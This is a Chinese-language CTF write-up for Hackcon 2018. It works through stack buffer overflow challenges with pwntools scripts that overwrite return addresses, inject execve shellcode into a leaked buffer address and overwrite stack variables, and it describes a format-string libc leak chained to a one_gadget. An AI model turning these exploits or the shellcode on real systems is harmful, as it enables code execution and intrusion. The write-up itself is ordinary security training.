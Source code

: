 # Hackcon 2018 - Notes

## BOF

保護一個都沒開，然後 ida pro 可以看到用 `gets()`

然後存在一個函數 `callMeMaybe()` 會給 flag

所以就是 overflow 跳這個函數就好

```python
#!/usr/bin/env python
from pwn import *
HOST = '127.0.0.1'
PORT = 1234
r = remote(HOST, PORT)

trash = 'a'*40
print r.recvrepeat(0.2)
r.sendline(trash + p64(0x400766))

r.interactive()
```

## She Sells Sea Shells

這題 和 BOF 差別在沒有給你一個函數送你 flag ，其他都一樣

所以需要送 shellcode 然後跳過去，且這題很好心的給了 buf addr

所以意思就是非常明顯，先抓這 buf addr ，然後送 shellcode 到 buf 上面再跳過去就好

```python
#!/usr/bin/env python
from pwn import *
context.arch='amd64'

HOST = '127.0.0.1'
PORT = 1234

r = remote(HOST, PORT)

r.recvuntil('small gift for you (no strings attached) ')
buf_addr = int(r.recvuntil('\n')[:-1],16)
print "buf_addr: ",hex(buf_addr)

shellcode= "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
shellcode = shellcode.ljust(72, '\x00')
r.sendline(shellcode + p64(buf_addr))

r.interactive()
```

## WarChange

沒開保護


看一下組語可以知道要讓 $rbp - 0x4 = 0xdeadbeef 和 $rbp - 0x8 = 0xcafebabe 

用 buffer overflow 蓋過去即可

```python
#!/usr/bin/env python
from pwn import *

HOST = '127.0.0.1'
PORT = 1234

r = remote(HOST, PORT)

target = 0xcafebabe
raw_input()
payload = 'a'*72 + p32(target) + p32(0xdeadbeef)
r.sendline(payload)
r.interactive()
```

## Simple Yet Elegent

這題保護只有開 DEP

然後漏洞有 buffer overflow 和 format string vuln

塞 72 個垃圾可以蓋到 ret ，就可以控制 rip

所以這題利用就是靠 format string leak information 再利用 buffer overflow 來 get shell


首先 gdb break 在 main+102 上面 (也就是 printf) 然後 x/50gx $rsp  看一下當前 leak 出的東西

有沒有可以用的，會發現第 17 個是 `__libc_start_main + 240` ，所以我們可以先用 gdb libc.so.6

然後 `disass __libc_start_main` 看 offset 是 0x20830 ，所以我們只要先用 

format 看第十七個的位址就可以算出 libc addr，那有了 libc 就可以算出 one_gadget

之後透過 overflow 控 rip 蓋 one_gadget 即可














